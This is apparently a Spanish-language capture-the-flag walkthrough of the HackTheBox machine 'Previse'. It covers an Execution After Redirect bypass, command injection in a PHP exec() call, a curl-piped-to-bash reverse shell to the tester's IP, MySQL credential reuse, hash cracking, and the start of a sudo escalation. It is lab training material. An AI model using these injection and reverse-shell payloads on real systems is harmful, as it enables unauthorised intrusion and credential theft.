







# Previse

`Previse` es una máquina sencilla que muestra Ejecución después de redirección (EAR) que permite a los usuarios recuperar el contenido y realizar solicitudes a `accounts.php` sin estar autenticado, lo que lleva a abusar de la función `exec()` de PHP ya que las entradas del usuario no se desinfectan, lo que permite la ejecución remota de código contra el objetivo, después de obtener un privilegio de shell www-data, la escalada comienza con la recuperación y el descifrado de un hash MD5Crypt personalizado que consiste en una sal Unicode y una vez descifrado permite a los usuarios obtener acceso SSH al objetivo y luego abusar de un script ejecutable sudo que no incluye rutas absolutas de las funciones que utiliza, lo que permite a los usuarios realizar el secuestro de PATH en el objetivo para comprometer la máquina.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`Previse`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.104 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-03 02:55 CET
Initiating SYN Stealth Scan at 02:55
Scanning 10.10.11.104 [65535 ports]
Discovered open port 80/tcp on 10.10.11.104
Discovered open port 22/tcp on 10.10.11.104
Completed SYN Stealth Scan at 02:55, 13.30s elapsed (65535 total ports)
Nmap scan report for 10.10.11.104
Host is up, received user-set (0.036s latency).
Scanned at 2025-03-03 02:55:17 CET for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
           Raw packets sent: 65607 (2.887MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.104
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` y el servicio`SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.104 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-03 02:56 CET
Nmap scan report for 10.10.11.104
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   32.39 ms 10.10.14.1
2   32.52 ms 10.10.11.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos a través de la herramienta de `whatweb` un reconocimiento inicial de las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb -a 3 http://10.10.11.104
http://10.10.11.104 [302 Found] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.104], Meta-Author[m4lwhere], RedirectLocation[login.php], Script, Title[Previse Home]
http://10.10.11.104/login.php [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.104], Meta-Author[m4lwhere], PasswordField[password], Script, Title[Previse Login]
```

Accederemos a [http://10.10.11.104](http://10.10.11.104) y comprobaremos el contenido de la aplicación web, en el cual nos ofrece un panel de autenticación.

<figure><figcaption></figcaption></figure>

Intentamos de acceder con credenciales básicas como `admin/admin` pero se nos indica el mensaje de `Invalid Username or Password`.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de páginas `PHP` y directorios de la aplicación web. En el resultado obtenido, verificamos diferentes páginas web `PHP` que analizaremos más adelante, muchas de ellas realizan una redirección a [http://10.10.11.104/login.php](http://10.10.11.104/login.php), lo cual sugiere que deberemos iniciar sesión para visualizar el contenido.

```bash
❯ feroxbuster -u http://10.10.11.104/ -t 200 -C 500,502,404 -x php
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.104/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        1w      263c http://10.10.11.104/site.webmanifest
200      GET        6l       17w     1258c http://10.10.11.104/favicon-16x16.png
200      GET       10l       39w    29694c http://10.10.11.104/favicon.ico
302      GET       74l      176w     2966c http://10.10.11.104/status.php => login.php
200      GET        3l     4821w    65009c http://10.10.11.104/js/uikit-icons.min.js
200      GET        3l     2219w   133841c http://10.10.11.104/js/uikit.min.js
200      GET        1l     4285w   274772c http://10.10.11.104/css/uikit.min.css
301      GET        9l       28w      309c http://10.10.11.104/js => http://10.10.11.104/js/
302      GET       71l      164w     2801c http://10.10.11.104/index.php => login.php
301      GET        9l       28w      310c http://10.10.11.104/css => http://10.10.11.104/css/
302      GET        0l        0w        0c http://10.10.11.104/download.php => login.php
302      GET       93l      238w     3994c http://10.10.11.104/accounts.php => login.php
200      GET       31l       60w     1248c http://10.10.11.104/nav.php
200      GET       20l       64w      980c http://10.10.11.104/header.php
200      GET        5l       14w      217c http://10.10.11.104/footer.php
200      GET        0l        0w        0c http://10.10.11.104/config.php
302      GET        0l        0w        0c http://10.10.11.104/logout.php => login.php
200      GET       53l      138w     2224c http://10.10.11.104/login.php
302      GET       71l      164w     2801c http://10.10.11.104/ => login.php
```

## Initial Foothold

### Execution After Redirect (EAR) Vulnerability - Skipping Redirects

Interceptaremos la solicitud de una de las páginas `PHP` obtenidas en la enumeración de directorios y páginas, una vez interceptado enviaremos la solicitud al `Repeater`.

<figure><figcaption></figcaption></figure>

En un principio, esta página llamada `accounts.php` aplicaba una redirección a `login.php`, pero al enviar la solicitud en `BurpSuite` en la respuesta por parte del servidor se comprueba el contenido de `accounts.php` antes de realizar la redirección.

En el contenido HTML de la página web, se comprueba que la página web tramita una petición por `POST` la creación de nuevas cuentas de usuario.

<figure><figcaption></figcaption></figure>


```html
<section class="uk-section uk-section-default">
    <div class="uk-container">
        <h2 class="uk-heading-divider">Add New Account</h2>
        <p>Create new user.</p>
        <p class="uk-alert-danger">ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!</p>
        <p>Usernames and passwords must be between 5 and 32 characters!</p>
    </p>
        <form role="form" method="post" action="accounts.php">
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: user"></span>
                    <input type="text" name="username" class="uk-input" id="username" placeholder="Username">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="password" class="uk-input" id="password" placeholder="Password">
                </div>
            </div>
            <div class="uk-margin">
                <div class="uk-inline">
                    <span class="uk-form-icon" uk-icon="icon: lock"></span>
                    <input type="password" name="confirm" class="uk-input" id="confirm" placeholder="Confirm Password">
                </div>
            </div>
            <button type="submit" name="submit" class="uk-button uk-button-default">CREATE USER</button>
        </form>
    </div>
</section>
```


La vulnerabilidad mencionada anteriormente, es conocida como `Execution After Redirect (EAR)`, ya que la página `accounts.php` es mostrada al usuario cuando se realiza la redirección. Esta página no deberíamos disponer de acceso principalmente, pero por una mala configuración en la redirección hemos sido capaces de ver su contenido.




**EAR (Execution After Redirect)** es una vulnerabilidad que se produce cuando un atacante puede ejecutar código malicioso o realizar acciones no deseadas en un sistema, aprovechando un redireccionamiento que ocurre en la aplicación web.

En esencia, un redireccionamiento se utiliza para enviar al usuario a otra página web, normalmente como parte de un flujo legítimo. Sin embargo, si el redireccionamiento no es validado adecuadamente, un atacante puede manipular este proceso para ejecutar código malicioso o realizar otras acciones maliciosas, aprovechando que la aplicación confíe en el redireccionamiento.


A continuación, se muestra el siguiente ejemplo de `EAR` que nos indica `OWASP`.

```php
<?php if (!$loggedin) {
     print "<script>window.location = '/login';</script>\n\n"; 
} ?>
```


El código siguiente comprobará si el parámetro “loggedin” es verdadero. Si no lo es, utiliza JavaScript para redirigir al usuario a la página de inicio de sesión. Si se utiliza la sección “Cómo comprobar las vulnerabilidades de EAR” o se desactiva JavaScript en el navegador, se repite la misma solicitud sin seguir la redirección de JavaScript y se puede acceder a la sección “Administrador” sin autenticación.


Por defecto, `BurpSuite` solamente intercepta las solicitud pero no las respuestas. Así que activaremos la siguiente opción para lograr también interceptar la respuesta.

<figure><figcaption></figcaption></figure>

Al volver a interceptar la página principal de [http://10.10.11.104](http://10.10.11.104), le daremos a `Forward` y comprobamos que `BurpSuite` ha logrado interceptar la respuesta también.

Confirmamos también que en la respuesta nos aparece otro tipo de contenido y no el del `login.php`, con lo cual confirmamos nuevamente la vulnerabilidad de `EAR`.

<figure><figcaption></figcaption></figure>

Modificaremos el código de estado de la respuesta de `302 Found` a `200 OK`. Una vez modificado, le daremos a `Forward` nuevamente para que la peti

<figure><figcaption></figcaption></figure>

Comprobamos en nuestro navegador que ha cargado correctamente la página, debido que la página se ejecuta y hemos logrado cambiarle el estado a `200 OK`.

<figure><figcaption></figcaption></figure>

Para no tener que modificar el `302 Found` por `200 OK` en cada solicitud que hagamos, lo que realizaremos es crear una regla en `BurpSuite` que reemplace el `Response header` y realice automáticamente el reemplazo.

<figure><figcaption></figcaption></figure>

Accedemos a [http://10.10.11.104/status.php](http://10.10.11.104/status.php) y comprobamos que realiza automáticamente el cambio de `302 Found` a `200 OK`. Logramos visualizar el contenido de la página web el cual no teníamos acceso previamente.

Por lo tanto, podremos intentar comprobar las diferentes páginas web en la que se aplicaba esta redirección vulnerable.

* accounts.php
* status.php
* index.php
* download.php
* logs.php
* files.php
* etc

<figure><figcaption></figcaption></figure>

Accedemos a [http://10.10.11.104/accounts.php](http://10.10.11.104/accounts.php) y comprobamos el siguiente contenido de la página web. Según indica la página web, esta página solamente debería ser visible por los `Admins`.

Probaremos de crear un nuevo usuario llamado `gzzcoo`.

<figure><figcaption></figcaption></figure>

Verificamos que al parecer se ha realizado correctamente el registro del nuevo usuario aprovechando la vulnerabilidad inicial del `EAR`.

<figure><figcaption></figcaption></figure>

También podemos crear el usuario a través de `BurpSuite` pasándole los parámetros y realizando la solicitud por el método `POST`.

<figure><figcaption></figcaption></figure>

### PHP Source Code Analysis

Dado que en un principio hemos logrado crear un nuevo usuario, probaremos de acceder con este mismo a la página web para verificar si disponemos de algún acceso a cierto contenido.

<figure><figcaption></figcaption></figure>

Revisando las diferentes secciones de la página web, nos encontramos en la página llamada `files.php` que contiene un archivo subido llamado `SITEBACKUP.ZIP`. Nos lo descargaremos a través de su enlace.

<figure><figcaption></figcaption></figure>

Revisaremos que se ha descargado correctamente el archivo comprimido, el cual posteriormente descomprimiremos. En el resultado obtenido, comprobamos que al parecer se trata de una copia de seguridad de la aplicación web. Revisaremos las diferentes páginas `PHP` en busca de credenciales, etc.

```bash
❯ ls -l siteBackup.zip
.rw-rw-r-- kali kali 9.7 KB Mon Mar  3 03:25:44 2025  siteBackup.zip
❯ unzip siteBackup.zip
Archive:  siteBackup.zip
  inflating: accounts.php            
  inflating: config.php              
  inflating: download.php            
  inflating: file_logs.php           
  inflating: files.php               
  inflating: footer.php              
  inflating: header.php              
  inflating: index.php               
  inflating: login.php               
  inflating: logout.php              
  inflating: logs.php                
  inflating: nav.php                 
  inflating: status.php    
```

Entre los archivos que logramos comprobar su contenido, nos encontramos con `config.php` el cual contiene las credenciales en texto plano del usuario para acceder a la base de datos `MySQL`.


```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```


Por otro lado, nos encontramos con el siguiente archivo `logs.php` el cual nos llamada bastante la atención debido al comentario que ha indicado el desarrollador de la aplicación web y de la manera en que se está empleando la función `exec`.

Esta función `exec` realiza la ejecución de un script de Python ubicado en `/opt/scripts/log_process.py` y recibe un valor por `POST` de una variable llamada `delim`. Lo grave de estepunto es que esta función `exec` no está realizando ningún tipo de sanitización ni validación del contenido, con lo cual podríamos llegar a intentar realizar un `Command Injection`.


```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```


### Command Injection (RCE)

Accederemos a [http://10.10.11.104/file\_logs.php](http://10.10.11.104/file_logs.php) y comprobaremos la siguiente página web en la cual realiza un `export` de los logs y nos ofrece el resultado en diferentes delimitadores:

* comma
* space
* tab

<figure><figcaption></figcaption></figure>

Le daremos a `SUBMIT` e interceptaremos la solicitud con `BurpSuite`, comprobamos que la petición del`export` de los logs se realiza sobre `logs.php` y en la respuesta por parte del servidor se muestra el `output` dependiendo del limitador seleccionado.



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



Tal y como hemos mencionado anteriormente, en la página `logs.php` comprobamos que lo que se ejecutaba por detrás era la siguiente ejecución de código a través de la función `exec` de `PHP`. Pero esta ejecución no era validada ni sanitizada en ninguna parte del código.

En el primer ejemplo, se muestra como espera el valor de `delim` en el archivo `logs.php` para ejecutar el script, pero debido que no se sanitiza, una atacante podría llegar a ejecutar otro comando a través de `;` logrando ejecutar ambos comandos y obtener un `Command Injection`.

```python
exec("/usr/bin/python /opt/scripts/log_process.py comma")
```

```python
exec("/usr/bin/python /opt/scripts/log_process.py comma; whoami")
```

Para confirmar la vulnerabilidad de `Command Injection` que hemos pensado, lo que realizaremos es levantar un servidor web para ver si logramos recibir una petición por el método `GET` de la solicitud que intentará realizar la máquina víctima hacia nuestro servidor a un recurso inexistente.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Realizaremos la siguiente inyección de código para que se ejecute el `cURL` hacia un recurso inexistente de nuestro servidor web que hemos levantado.

```bash
delim=comma;+curl+10.10.14.2/gzzcoo+#
```

<figure><figcaption></figcaption></figure>

Comprobamos que en nuestro servidor web, hemos logrado obtener la petición por `GET` desde la máquina víctima al recurso inexistente. Con lo cual, queda confirmada la existencia de la vulnerabilidad de `Command Injection` presente en la aplicación web.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.104 - - [03/Mar/2025 03:32:21] code 404, message File not found
10.10.11.104 - - [03/Mar/2025 03:32:21] "GET /gzzcoo HTTP/1.1" 404 -
```

El siguiente paso será lograr obtener acceso al sistema. Para ello, crearemos un script en `Bash` llamado `shell.sh` que contendrá la Reverse Shell. Este script lo compartiremos a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En otra terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos la siguiente ejecución de código para que realice un `cURL` hacía nuestro script y se ejecute en una `bash`.

```bash
delim=comma;+curl+10.10.14.2/shell.sh|bash+#
```

<figure><figcaption></figcaption></figure>

Verificamos que logramos obtener acceso al sistema y nos encontramos como el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.104] 51490
bash: cannot set terminal process group (1576): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
www-data@previse:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@previse:/var/www/html$ export TERM=xterm
www-data@previse:/var/www/html$ export SHELL=bash
www-data@previse:/var/www/html$ stty rows 46 columns 230
```

## Initial Access

### Information Leakage

Volviendo a revisar el directorio donde nos encontramos, volvemos a encontrar el archivo `config.php` el cual contiene de las credenciales de acceso al `MySQL`.

```bash
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

### Database Enumeration

Nos conectaremos al `MySQL` con las credenciales encontradas y utilizaremos la base de datos `previse` que se mencionaba en el archivo de configuración.

Enumerando la base de datos, nos encontramos con una tabla llamada `accounts` la cual revisando el contenido de dicha tabla, logramos encontrar la contraseña hasheada del usuario `m4lwhere`.

```bash
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' -D previse
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 23
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW TABLES;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | gzzcoo   | $1$🧂llol$OF5igbTSVf3DfojtQUj.p. | 2025-03-03 02:23:40 |
|  3 | Gzzcoo1  | $1$🧂llol$lLCHpmFzMin57aRu3E6Zu/ | 2025-03-03 02:25:27 |
+----+----------+------------------------------------+---------------------+
3 rows in set (0.00 sec)
```

### Cracking hashes

Intentaremos crackear el hash obtenido anteriormente, después de un tiempo logramos crackear el hash obtenido con `hashcat`.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System


$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!  
```

Nos conectamos mediante `SSH` a través del usuario `m4lwhere` y las credenciales obtenidas en el punto anterior. Finalmente, accedemos al equipo y comprobamos la flag **user.txt**.

```bash
❯ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar  3 02:49:19 UTC 2025

  System load:  0.0               Processes:           181
  Usage of /:   50.2% of 4.85GB   Users logged in:     0
  Memory usage: 23%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt 
b38*****************************
```

## Privilege Escalation

### Abusing Sudoers Privilege + PATH Hijacking

Revisando si el usuario `m4lwhere` dispone de algun permiso de `sudoers`, nos encontramos que puede ejecutar como el usuario `root` un script ubicado en `/opt/scripts/access_backup.sh`.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

